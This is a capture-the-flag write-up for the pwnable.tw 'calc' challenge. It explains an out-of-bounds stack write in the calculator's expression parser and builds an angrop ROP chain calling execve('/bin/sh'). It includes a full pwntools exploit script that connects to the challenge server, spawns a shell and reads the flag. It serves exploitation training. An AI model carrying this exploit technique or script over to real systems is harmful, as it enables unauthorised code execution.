 +++
title = 'pwnable.tw - calc'
date = 2023-09-10 00:08:26
tags = ['pwnable.tw', 'pwn', 'writeups']
+++
> Have you ever use Microsoft calculator?
```c
> checksec calc
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
A challenge testing reverse engineering and pwn skills. The steps to solve it are:
1. Locate the vulnerability in the `parse_expr` function for an arbitrary stack write.
2. Understand `eval` to use the stack write.
3. Create a ROP chain that calls `execve('/bin/sh', 0, 0)` to win.

## Vulnerability
The `parse_expr` has a buffer `int *pool` that stores all integers of the user-expression. `pool[0]` contains the current index for evaluation.

<img src="https://i.imgur.com/GTiySjS.png" title="source: imgur.com" height=200/>

If the first character of the input is an operator `+-*/%`, `pool[0]` gets modified, which allows us to arbitrarily modify values outside the original pool.

## Exploit
### Arbitrary write
If we enter `+`: the `eval` function does `pool[pool[0] - 1] += pool[pool[0]]`. e.g if we want to add +1234 to `pool[-12]`, we enter the expression `-12+1234`

For ease of use create a function that zeros out the current value and writes our new desired value.
```python
def write(offset: int, data: int):
    """Write data at offset relative to the pool pointer"""
    INT_MAX = 0x7fffffff
    prefix = b'*%d' % offset
    # Set current value to 0 by dividing by INT_MAX twice
    io.sendline(prefix + b'/' + str(INT_MAX).encode())
    io.sendline(prefix + b'/' + str(INT_MAX).encode())

    # Set data
    io.sendline(prefix + b'+' + str(data).encode())
```

### ROP-chain
At offset 362 is the return value from `calc` to `main`. This allows us to write arbitrary values, the **trigger** for the chain is an empty line.

To automatically generate the ropchain I use [angrop](https://github.com/angr/angrop).

```python
import angr, angrop
proj = angr.Project('./calc')
rop = proj.analyses.ROP()
rop.find_gadgets()
# Create a ROP chain that calls execve('/bin/sh', 0, 0)
chain = rop.execve(b'/bin/sh\0')
chain.print_payload_code()
```

Now we have a shell and can read the flag!

## Full code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'calc')
context.terminal = ['tmux', 'new-window']

host = args.HOST or 'chall.pwnable.tw'
port = int(args.PORT or 10100)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
stub alarm
break *calc+186
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvline() # Banner

# We build a ROP chain to call system('/bin/sh')
def write(offset: int, data: int):
    """Write data to the stack at offset relative to the pool pointer"""
    INT_MAX = 0x7fffffff
    prefix = b'*%d' % offset
    # Set current value to 0 by dividing by INT_MAX twice
    io.sendline(prefix + b'/' + str(INT_MAX).encode())
    io.sendline(prefix + b'/' + str(INT_MAX).encode())

    # Set data
    io.sendline(prefix + b'+' + str(data).encode())

# Stack offset of return address to main (Our start point for the chain)
main_offset = 362

# /bin/sh Chain generated with angrop
chain = b""
chain += p32(0x80701c9) # add bh, bh; adc eax, 0x80ec9f0; pop edx; pop ecx; pop ebx; ret
chain += p32(0x80ebf48)
chain += p32(0x6e69622f)
chain += p32(0x0)
chain += p32(0x80503a8) # push eax; pop eax; mov dword ptr [edx + 0xb8], ecx; ret
chain += p32(0x80701c9) # add bh, bh; adc eax, 0x80ec9f0; pop edx; pop ecx; pop ebx; ret
chain += p32(0x80ebf4c)
chain += p32(0x68732f)
chain += p32(0x0)
chain += p32(0x80503a8) # push eax; pop eax; mov dword ptr [edx + 0xb8], ecx; ret
chain += p32(0x8058ffc) # pop eax; or dh, dh; ret
chain += p32(0xb)
chain += p32(0x80701d0) # pop edx; pop ecx; pop ebx; ret
chain += p32(0x0)
chain += p32(0x0)
chain += p32(0x80ec000)
chain += p32(0x8070880) # int 0x80

# Write the chain to the stack
for i in range(0, len(chain), 4):
    write(main_offset + i//4, u32(chain[i:i+4]))

# Trigger the chain by exiting calc
io.sendline(b'')

# Bask in the glory of our shell
io.sendline(b'echo WOHOOO it actually worked!')
io.sendline(b'id')
io.sendline(b'cat /home/calc/flag')
io.interactive()
```
